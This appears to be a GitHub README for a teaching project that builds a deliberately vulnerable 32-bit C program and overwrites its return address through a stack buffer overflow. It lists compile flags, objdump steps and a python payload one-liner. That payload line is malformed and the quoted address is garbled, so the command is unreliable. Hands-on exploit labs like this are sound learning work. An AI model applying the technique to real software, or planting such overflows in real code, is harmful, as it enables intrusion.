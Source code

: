 # BufferOverflow
Writing a buffer overflow vulnerability and exploiting it.

# Quick Start
1. Compile the c file. Disabling stack protection and compiling for a 32 bit machine.

	`$ gcc -fno-stack-protector -m32 vulnerability.c`

2. Detrmine the address of the malicious function on your machine. You can do this in two ways.

	a. Easy method. run `./a.out` and it will print the address for you.<br>
	b. Cooler method. run `objdump -d a.out | less` and find the address manually.
  
3. Determine if you are on a Big Endian or Little Endian Machine. You can probably google this.

4. Run the injection using your malicious address in the proper LE/BE order
  
	`python -c 'print "a"*32 . + "\xa0\x84\x04\x08"' | a.out`
  
Note: If you are on a LE machine, inject a LE ordered address. Otherwise, inject a BE ordered address.
My malicious address was 0\x080484a0 on a LE macine.
  



# Debugging
The malicious print statement was not printing until I flushed the printf buffer by adding a new line character '\n'.
If you are messing around with this, don't forget to flush the buffer or will just receive seg faults and not feel like a hacker :(
